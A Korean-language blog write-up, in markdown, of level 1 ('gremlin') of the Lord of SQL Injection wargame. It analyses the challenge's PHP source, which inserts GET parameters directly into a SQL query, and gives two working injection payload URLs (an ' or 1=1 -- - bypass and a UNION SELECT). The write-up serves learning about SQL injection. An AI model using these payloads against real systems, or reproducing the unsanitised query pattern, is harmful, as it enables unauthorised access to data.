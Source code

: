 ```yaml
---
title: Lord of SQL Injection Write Up No.1 Gremlin
date: 2019-08-12 11:24:33
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 1번 gremlin 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

기본적인 SQL Injection을 통해 SQL문을 조작할 수 있는지 확인한다.

### 필요 배경 지식

#### include

- php의 include에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [PHP: include - Manual](http://php.net/manual/kr/function.include.php)

#### preg_match

```php
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
```

- preg_match 함수는 문자열에서 정규표현식 매치를 수행한다.
- 반환값은 매치된 횟수이며, 0 또는 1 이다. 이는 처음 매치 후 검색을 중지하기 때문이다.
- php의 preg_match 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
  - [PHP: preg_match - Manual](http://php.net/manual/kr/function.preg-match.php)

#### 정규 표현식 (Regular Expression)

- 정규 표현식은 특정한 규칙을 가진 문자열의 집합을 표현하는 데 사용하는 형식 언어이다.
- 정규 표현식에 대해 잘 모르겠다면 다음 링크를 참고하자.
  - [정규 표현식 - 위키백과](https://ko.wikipedia.org/wiki/%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)
  - [정규 표현식 테스트 사이트 RegExr](http://regexr.com/)

### 소스 코드 분석

gremlin 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

#### Intro

```php
include "./config.php";
login_chk();
dbconnect();
```

- `config.php` 파일을 불러와 적용시킨다. `config.php` 내부에 `login_chk()`, `dbconnect()`, `solve()` 등 문제 풀이 환경과 관련된 함수가 선언되어 있을 것으로 추정할 수 있다.
- `login_chk()` 함수는 로그인 된 상태인지 확인하는 기능을 할 것으로 추정할 수 있다.
- `dbconnect()` 함수는 데이터베이스에 연결하는 기능을 할 것으로 추정할 수 있다.

#### Filter

```php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

- GET 방식으로 `id`와 `pw`를 받으며, `id`나 `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
  - `preg_match('/prob|_|\.|\(\)/i', $_GET[id])` 는 `$_GET[id]`에서 정규표현식 `'/prob|_|\.|\(\)/i'` 을 매치한다.
  - 즉, `if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");` 이 문장을 통해 `$_GET[id]`에 `prob`, `_`, `.`, `()` 중 하나라도 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

#### Query

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
echo "<hr>query : <strong>{$query}</strong><hr><br>";
$result = @mysql_fetch_array(mysql_query($query));
if($result['id']) solve("gremlin");
```

- 받은 `id`와 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 참이 되는 어떤 문자열이든 들어있음'이다.

## Solution

1. WHERE 조건절 무력화
   GET 방식으로 정보를 전송하기 위해 다음과 같이 URL의 맨 끝에 쿼리 스트링을 붙인다.

   ```url
   http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
   ```

   ```sql
   select id from prob_gremlin where id='' or 1=1 -- -' and pw=''
   ```

   이는 WHERE 조건절을 항상 참으로 만들어 `prob_gremlin` 테이블의 모든 행의 `id` 열을 불러오도록 하므로 문제가 풀린다.

2. UNION 구문 이용

   ```url
   http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' union select 'a'-- -
   ```

   ```sql
   select id from prob_gremlin where id='' union select 'a'-- -' and pw=''
   ```

   이는 결국 `$result['id']`에 `'a'`가 들어가도록 하므로 문제가 풀린다.
